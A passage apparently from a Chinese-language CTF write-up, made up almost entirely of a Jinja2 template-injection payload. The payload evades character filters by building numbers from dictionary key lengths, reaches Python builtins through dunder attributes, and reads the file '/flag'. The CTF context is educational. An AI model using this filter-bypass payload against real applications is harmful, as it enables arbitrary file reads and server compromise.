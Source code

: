 [![在这里插入图片描述](assets/1698900310-19b6a469b7cf5440880ddf2f0475efbc.png)](https://storage.tttang.com/media/attachment/2022/08/14/b3d6a8cd-6158-4e3e-8f2d-c1a7f6f73012.png)  
这里的话就可以利用上关姿势，然后我们构造出数字来进行替换即可

```plain
{%set e=dict (aaaaaaaaaaaa=a,bbbbbbbbbbbb=b)|join|count%}
{% set a=(()|select|string|list).pop(e)%}
{%set ee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eee=dict(aaaaaaaaaaaaaeeeeeeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeeeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set flag=chr(ee)%2bchr(eeee)%2bchr(eeeeee)%2bchr(eee)%2bchr(eeeee)%}
{%print(x.open(flag).read())%}
```
